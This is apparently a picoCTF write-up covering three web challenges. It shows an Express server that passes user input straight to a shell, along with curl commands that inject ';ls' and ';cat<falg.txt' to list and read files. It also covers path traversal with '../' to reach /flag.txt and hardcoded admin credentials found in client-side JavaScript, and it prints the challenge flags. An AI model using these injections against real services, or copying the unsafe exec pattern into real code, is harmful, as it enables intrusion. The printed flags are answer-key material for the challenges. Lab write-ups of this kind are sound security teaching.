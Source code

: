 # cass

**Flag:** `picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}`

We're given a [website](https://caas.mars.picoctf.net/) where we can enter a message and have it be output by cowsay. We're also given an `index.js` file with the following contents

```
const express = require('express');
const app = express();
const { exec } = require('child_process');

app.use(express.static('public'));

app.get('/cowsay/:message', (req, res) => {
    exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) => {
        if (error) return res.status(500).end();
        res.type('txt').send(stdout).end();
    });
});

app.listen(3000, () => {
    console.log('listening');
});
```

It turns out the service simply runs the `exec` command on whatever our message at the end of our url is. This is perfect for adding unwanted shell code. First, we inject `ls` to see the list of all the files in the home directory


```
~ $ curl "https://caas.mars.picoctf.net/cowsay/test;ls"
 ______
< test >
 ------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
Dockerfile
falg.txt
index.js
node_modules
package.json
public
yarn.lock
```

We find a file `falg.txt`, presumably containing the desired flag. Running `curl` once again, this time trying to output the contents of `falg.txt` using `cat`, we find that is indeed the case

```
~ $ curl "https://caas.mars.picoctf.net/cowsay/test;cat<falg.txt"
 ______
< test >
 ------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}
```

# Forbidden Paths

**Flag:** `picoCTF{7h3_p47h_70_5ucc355_e5a6fcbc}`

Here, the flag is given in the file `/flag.txt`, but absolute paths are not allowed to be entered. We know an nginx website is stored at `/usr/share/nginx/html/`, so we use relative file paths to traverse to the file.

![The input](../Images/input.jpg)

Since we are four levels deep in the root directory, we use `../` four times.

![The flag](../Images/path_flag.jpg)

So the flag turns out to be `picoCTF{7h3_p47h_70_5ucc355_e5a6fcbc}`.

# Local Authority

**Flag:** `picoCTF{j5_15_7r4n5p4r3n7_05df90c8}`

We are given a website `http://saturn.picoctf.net:50920/`, which opens to a login page.

![Portal](../Images/login_portal.jpg)

We open our browser's network tab and enter meaningless data in the input fields. After that we open the request titled `secure.js` and go into its *Response* tab.


https://github.com/lucky-vers/Cryptonite-Taskphase/assets/51952975/e08177a5-6516-4291-98d0-47a89f523bd6


We find the following (very insecure!) JavaScript code that checks whether the username and password are that of the admin's or not

```
function checkPassword(username, password)
{
  if( username === 'admin' && password === 'strongPassword098765' )
  {
    return true;
  }
  else
  {
    return false;
  }
}
```

Therefore, the username we need is `admin` and the password `strongPassword098765`. Using these details, we successfully log in and acquire the flag.


https://github.com/lucky-vers/Cryptonite-Taskphase/assets/51952975/8b7d50f8-eb97-4801-b99e-16fe569cc6e0


